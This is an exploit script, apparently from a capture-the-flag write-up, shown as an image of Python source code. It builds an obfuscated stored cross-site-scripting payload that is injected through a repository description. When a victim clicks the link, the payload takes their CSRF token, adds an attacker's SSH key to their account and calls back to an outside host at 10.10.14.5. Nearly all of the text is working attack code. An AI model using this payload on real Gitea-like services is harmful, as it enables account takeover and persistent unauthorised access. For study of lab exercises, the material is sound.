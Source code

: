 ```python

    def create_repo():
        payload = (
            """fetch('"""
            + "/"
            + """').then(e => {
                return e.text();
        }).then(data => {
            let csrf = data.split("csrfToken: '")[1].split("'")[0];
            fetch('/user/settings/keys',{
                method: "POST",
                body: "_csrf=" + csrf + "&title=lala&content=ssh-ed25519+AAAAC3NzaC1lZDI1NTE5AAAAIKXWJhDigZw%2B%2Fcj7TOb3Z6bhauvknl8rvHrs%2FgHSEy8i+shafouz%40htb.com&type=ssh",
                headers: { "Content-Type": "application/x-www-form-urlencoded" }
            })
        }).catch(error => {
            fetch('http://10.10.14.5:5000/error?' + encodeURIComponent(error.toString()));
        });
        fetch('http://10.10.14.5:5000/error');
        """
        )

        js = jsmin(payload)
        payload = base64.b64encode(js.encode()).decode()
        payload = f"<a href=\"javascript:eval(atob('{payload}'))\">click me</a>"

        path = "/repo/create"
        cookies = {
            "_csrf": "eP9Ey4eVFpoAsYUNYrbfzcBez5Y6MTc1MDk3NjA1MTIzMDk3MDAwMQ",
        }
        headers = {
            "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
            "Content-Type": "application/x-www-form-urlencoded",
        }
        data = {
            "_csrf": "eP9Ey4eVFpoAsYUNYrbfzcBez5Y6MTc1MDk3NjA1MTIzMDk3MDAwMQ",
            "uid": "2",
            "repo_name": "xss",
            "description": payload,
            "repo_template": "",
            "issue_labels": "",
            "gitignores": "",
            "license": "",
            "readme": "Default",
            "auto_init": "on",
            "default_branch": "main",
            "object_format_name": "sha1",
        }
        ses.post(
            url + path,
            headers=headers,
            cookies=cookies,
            data=data,
        )

    url = "http://240.0.0.1:3000/"
    csrf = _csrf()
    login()
    create_repo()
```
